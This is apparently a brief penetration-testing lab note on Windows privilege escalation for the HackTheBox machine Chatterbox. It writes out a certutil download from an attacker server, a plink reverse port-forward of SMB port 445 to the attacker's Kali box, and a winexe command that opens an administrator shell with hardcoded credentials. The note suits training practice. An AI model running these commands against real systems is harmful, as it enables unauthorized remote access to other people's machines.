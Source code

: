 First of all, do enumeration

To do port forwarding, you can use a tool called Plink

Plink Download - [https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

certutil is a tool that is used to download a file

so for example:

```
certutil -f http://your_http_server/file to_be_saved_as
```

In order for port forwarding to work, you should have ssh installed on your system and you should make a change in the config file of ssh

```
PermitRootLogin yes
```

Then:
```
service ssh restart
service ssh start
```

And then on your Windows machine, run:

```
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.5
```

-l is for username, -pw is for password, -R is for port forwarding.

so for this command, port 445 of this machine is going to localhost's port 445 which is then going to our kali machine.

Once you run this command, you can access your box from the windows box, boxception amirite?

We can then use a tool called winexe which basically allows you to run windows commands on linux. You can run this command for example:

```
winexe -Y Administrator%Welcome1! //127.0.0.1 "cmd.exe"
```

HTB Box to Practice: Chatterbox